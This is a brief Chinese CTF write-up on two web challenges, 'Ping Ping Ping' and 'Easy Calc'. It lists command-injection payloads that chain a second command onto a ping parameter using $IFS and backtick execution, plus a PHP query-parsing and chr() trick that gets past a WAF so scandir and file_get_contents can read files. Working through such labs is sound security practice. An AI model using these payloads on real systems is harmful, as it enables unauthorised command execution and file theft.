 ##[GXYCTF2019]Ping Ping Ping##
只想到了用base64绕过，还是太水了。


其余解:

1, 通过变量实现字符串拼接 

构造:?ip=127.0.0.1|b=ag;a=fl;cat$IFS$1$a$b.php

**2，内联执行**

构造:?ip=127.0.0.1|cat$IFS$1\`ls\`

**注：内联，就是将反引号内命令的输出作为输入执行** 

不一定要输入，可以利用\`\`将想要的参数输入,什么正则都是浮云。


## [RoarCTF 2019]Easy Calc ##
1，不知道PHP字符串解析的漏洞

2，不知道chr的使用

解决:

1，PHP在解析查询字符串时，它会做两件事，删除空白符和将某些字符转换为下划线（包括空格)所以用到? num绕过

**2，chr(ascll编码)可以绕过一些waf,所以scandir(chr(47))获取目录文件，之后直接file_get_contents()显示文件内容。**//为什么system(chr(34).ls.chr(34))不行？